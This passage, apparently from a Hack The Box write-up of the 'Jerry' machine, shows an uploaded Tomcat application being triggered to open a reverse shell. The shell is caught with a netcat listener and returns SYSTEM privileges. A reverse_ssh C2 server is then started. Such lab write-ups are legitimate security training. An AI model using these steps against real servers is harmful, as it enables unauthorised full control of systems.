 Upload and deploy the application

![](/assets/obsidian/502541a22dc29fbe79f11f99329f8824.png)

This pops up

![](/assets/obsidian/b8b4e94cb4eb05db5f38df069b5552be.png)

Then trigger it

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ http http://jerry.htb:8080/rev/
HTTP/1.1 200 OK
Content-Length: 6
Content-Type: text/html;charset=ISO-8859-1
Date: Tue, 26 Sep 2023 20:00:30 GMT
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=90DCDD646CF55F0C90E3D667240C2884; Path=/rev; HttpOnly
```

Wow... it's system already

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ rlwrap -cAr nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.13] from (UNKNOWN) [10.129.136.9] 49196
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```


## Get a stable shell

Use [reverse ssh](https://github.com/NHAS/reverse_ssh)

Start listener

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ cd /opt/sectools/c2/reverse_ssh/bin && ./server 0.0.0.0:22521
```
